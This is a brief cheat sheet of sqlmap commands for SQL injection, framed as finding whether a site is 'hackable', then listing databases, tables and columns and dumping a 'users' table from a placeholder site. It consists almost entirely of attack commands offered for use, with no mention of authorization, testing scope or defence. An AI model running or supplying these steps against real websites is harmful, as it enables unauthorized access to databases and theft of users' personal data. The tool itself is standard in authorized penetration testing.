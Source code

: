 ## Sqlmap Commands

#### Find if Site is Hackable
$ python sqlmap.py -u "http://www.site.com/section.php?id=51"

#### Discover Databases
$ python sqlmap.py -u "http://www.sitemap.com/section.php?id=51" --dbs

#### Find tables in a particular database
$ python sqlmap.py -u "http://www.site.com/section.php?id=51" --tables -D safecosmetics

#### Get columns of a table
$ python sqlmap.py -u "http://www.site.com/section.php?id=51" --columns -D safecosmetics -T users


#### Get data from a table
$ python sqlmap.py -u "http://www.site.com/section.php?id=51" --dump -D safecosmetics -T users
